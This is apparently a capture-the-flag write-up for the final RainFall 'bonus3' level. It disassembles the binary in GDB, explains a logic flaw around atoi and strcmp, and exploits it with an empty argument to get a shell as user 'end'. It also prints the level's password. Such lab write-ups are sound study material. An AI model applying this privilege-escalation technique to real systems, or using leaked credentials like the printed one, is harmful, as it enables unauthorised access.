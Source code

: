 # Bonus3

## Exploring the binary
```shell
bonus3@RainFall:~$ ./bonus3
bonus3@RainFall:~$ echo $?
255
bonus3@RainFall:~$ ./bonus3 phantom

bonus3@RainFall:~$ echo $?
0
```
The executable runs with and without an argument and does not segfault, revealing little information.

## GDB analysis
```shell
Dump of assembler code for function main:
   0x080484f4 <+0>:	push   %ebp
   0x080484f5 <+1>:	mov    %esp,%ebp
   0x080484f7 <+3>:	push   %edi
   0x080484f8 <+4>:	push   %ebx
   0x080484f9 <+5>:	and    $0xfffffff0,%esp
   0x080484fc <+8>:	sub    $0xa0,%esp
   0x08048502 <+14>:	mov    $0x80486f0,%edx
   0x08048507 <+19>:	mov    $0x80486f2,%eax
   0x0804850c <+24>:	mov    %edx,0x4(%esp)
   0x08048510 <+28>:	mov    %eax,(%esp)
   0x08048513 <+31>:	call   0x8048410 <fopen@plt>
   0x08048518 <+36>:	mov    %eax,0x9c(%esp)
   0x0804851f <+43>:	lea    0x18(%esp),%ebx
   0x08048523 <+47>:	mov    $0x0,%eax
   0x08048528 <+52>:	mov    $0x21,%edx
   0x0804852d <+57>:	mov    %ebx,%edi
   0x0804852f <+59>:	mov    %edx,%ecx
   0x08048531 <+61>:	rep stos %eax,%es:(%edi)
   0x08048533 <+63>:	cmpl   $0x0,0x9c(%esp)
   0x0804853b <+71>:	je     0x8048543 <main+79>
   0x0804853d <+73>:	cmpl   $0x2,0x8(%ebp)
   0x08048541 <+77>:	je     0x804854d <main+89>
   0x08048543 <+79>:	mov    $0xffffffff,%eax
   0x08048548 <+84>:	jmp    0x8048615 <main+289>
   0x0804854d <+89>:	lea    0x18(%esp),%eax
   0x08048551 <+93>:	mov    0x9c(%esp),%edx
   0x08048558 <+100>:	mov    %edx,0xc(%esp)
   0x0804855c <+104>:	movl   $0x42,0x8(%esp)
   0x08048564 <+112>:	movl   $0x1,0x4(%esp)
   0x0804856c <+120>:	mov    %eax,(%esp)
   0x0804856f <+123>:	call   0x80483d0 <fread@plt>
   0x08048574 <+128>:	movb   $0x0,0x59(%esp)
   0x08048579 <+133>:	mov    0xc(%ebp),%eax
   0x0804857c <+136>:	add    $0x4,%eax
   0x0804857f <+139>:	mov    (%eax),%eax
   0x08048581 <+141>:	mov    %eax,(%esp)
   0x08048584 <+144>:	call   0x8048430 <atoi@plt>
   0x08048589 <+149>:	movb   $0x0,0x18(%esp,%eax,1)
   0x0804858e <+154>:	lea    0x18(%esp),%eax
   0x08048592 <+158>:	lea    0x42(%eax),%edx
   0x08048595 <+161>:	mov    0x9c(%esp),%eax
   0x0804859c <+168>:	mov    %eax,0xc(%esp)
   0x080485a0 <+172>:	movl   $0x41,0x8(%esp)
   0x080485a8 <+180>:	movl   $0x1,0x4(%esp)
   0x080485b0 <+188>:	mov    %edx,(%esp)
   0x080485b3 <+191>:	call   0x80483d0 <fread@plt>
   0x080485b8 <+196>:	mov    0x9c(%esp),%eax
   0x080485bf <+203>:	mov    %eax,(%esp)
   0x080485c2 <+206>:	call   0x80483c0 <fclose@plt>
   0x080485c7 <+211>:	mov    0xc(%ebp),%eax
   0x080485ca <+214>:	add    $0x4,%eax
   0x080485cd <+217>:	mov    (%eax),%eax
   0x080485cf <+219>:	mov    %eax,0x4(%esp)
   0x080485d3 <+223>:	lea    0x18(%esp),%eax
   0x080485d7 <+227>:	mov    %eax,(%esp)
   0x080485da <+230>:	call   0x80483b0 <strcmp@plt>
   0x080485df <+235>:	test   %eax,%eax
   0x080485e1 <+237>:	jne    0x8048601 <main+269>
   0x080485e3 <+239>:	movl   $0x0,0x8(%esp)
   0x080485eb <+247>:	movl   $0x8048707,0x4(%esp)
   0x080485f3 <+255>:	movl   $0x804870a,(%esp)
   0x080485fa <+262>:	call   0x8048420 <execl@plt>
   0x080485ff <+267>:	jmp    0x8048610 <main+284>
   0x08048601 <+269>:	lea    0x18(%esp),%eax
   0x08048605 <+273>:	add    $0x42,%eax
   0x08048608 <+276>:	mov    %eax,(%esp)
   0x0804860b <+279>:	call   0x80483e0 <puts@plt>
   0x08048610 <+284>:	mov    $0x0,%eax
   0x08048615 <+289>:	lea    -0x8(%ebp),%esp
   0x08048618 <+292>:	pop    %ebx
   0x08048619 <+293>:	pop    %edi
   0x0804861a <+294>:	pop    %ebp
   0x0804861b <+295>:	ret
End of assembler dump.
```
The main function uses <code>fread()</code> to read a file stored at <code>0x80486f2</code> and stores its value at <code>esp+0x9</code>.
```shell
(gdb) x/s 0x80486f2
0x80486f2:	 "/home/user/end/.pass"
```

The <code>main()</code> function also converts the argument passed to the binary, <code>av[1]</code>, to a number using <code>atoi()</code>. This is done while <code>esp+eax*1+0x18</code> is set to 0, so the operation that happens looks like this:
``` C
str[atoi(argv[1])] = 0;
```

Later on, there is a call to <code>strcmp()</code>, which checks if the result of the comparison between <code>str</code> and <code>av[1]</code> is equal to 0 (meaning the two are the same). If yes, there is a call to <code>0x804870a</code>, which spawns the final shell for us:
```shell
(gdb) x/s 0x804870a
0x804870a:	 "/bin/sh"
```

This means that we just need to figure out what value to pass to the binary so that the two variables are the same. The simplest solution is apparently passing <code>NULL</code>, so that both strings are empty.

## Exploit
``` shell
bonus3@RainFall:~$ ./bonus3 ""
$ whoami
end
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
```

## The end
``` shell
bonus3@RainFall:~$ su end
Password:
end@RainFall:~$ cat end
Congratulations graduate!
```

